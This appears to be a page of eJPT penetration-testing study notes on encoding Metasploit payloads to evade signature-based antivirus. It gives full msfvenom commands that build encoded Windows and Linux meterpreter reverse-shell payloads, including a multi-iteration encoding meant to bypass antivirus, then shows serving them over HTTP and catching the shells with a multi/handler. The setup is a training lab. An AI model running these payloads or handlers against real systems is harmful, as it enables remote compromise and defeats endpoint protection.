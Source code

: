 ![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-ad022854e3f7b468ce17822415bef326f1f4c84e%2Fimage-20230415200856110.png?alt=media)Same example with the `linux/x86/meterpreter/reverse_tcp` Linux payload executed on the Kali VM.![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-a0dc06e0faab6ffdd48000e41ed434b71b6f763a%2Fimage-20230415201253314.png?alt=media)

#### Encoding Payloads <a href="#encoding-payloads" id="encoding-payloads"></a>

Signature based Antivirus solutions can detect malicious files or executables. Older AV solutions can be evaded by **encoding** the payloads.

* ❗ _This kind of attack vector is outdated and hardly used today_.
* May work on legacy old O.S. like Windows 7 or older.

🗒️ Payload **Encoding** involves changing the payload shellcode _with the aim of changing the payload signature_.

* ​[Encoding will not always avoid detection](https://docs.rapid7.com/metasploit/encoded-payloads-bypassing-anti-virus)​

🗒️ **Shellcode** is the code typically used as a _payload_ for exploitation, that provides with a remote _command shell_ on the target system.msfvenom --list encoders![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-36c58ce623edb6604b5389a560b43c2b2889540f%2Fimage-20230415212307184.png?alt=media)msfvenom --list encoders

* Excellent encoders are **`cmd/powershell_base64`** and **`x86/shikata_ga_nai`**

**Windows Payload**

* Generate a Win x86 payload and encode it with `shikata_ga_nai`:

msfvenom -p windows/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -e x86/shikata\_ga\_nai -f exe > /home/kali/certs/ejpt/Windows\_Payloads/encodedx86.exe![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-d56db5d41d93664e9db09e119cb88f61f33c9b3b%2Fimage-20230415213830109.png?alt=media)msfvenom shikata\_ga\_nai Win

* The payload can be encoded as often as desired by increasing the number of iterations.
* The more iterations, the better chances to bypass an Antivirus. Use **`-i`** option.

msfvenom -p windows/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -i 10 -e x86/shikata\_ga\_nai -f exe > /home/kali/certs/ejpt/Windows\_Payloads/encodedx86.exe![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-9c008a977f1b16aded3166fa2f353eba24310ff4%2Fimage-20230415213941131.png?alt=media)

**Linux Payload**

msfvenom -p linux/x86/meterpreter/reverse\_tcp LHOST=192.168.31.128 LPORT=1234 -i 10 -e x86/shikata\_ga\_nai -f elf > /home/kali/certs/ejpt/Linux\_Payloads/encodedx86![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-e2cc12efa4f115212a607b3c46a2996a9eedb3bc%2Fimage-20230415213215234.png?alt=media)msfvenom shikata\_ga\_nai Linux

* Test each of the above generated payloads, like before

cd /home/kali/certs/ejpt/Windows\_Payloadssudo python -m http.server 8080msfconsole -q​use multi/handlerset payload windows/meterpreter/reverse\_tcpset LHOST 192.168.31.128set LPORT 1234run![](https://2946054920-files.gitbook.io/\~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FlhjuckuLbvBn36EoFL7P%2Fuploads%2Fgit-blob-272cfba18c7588efaa8b7563881176e593a4fd82%2Fimage-20230415213745031.png?alt=media)

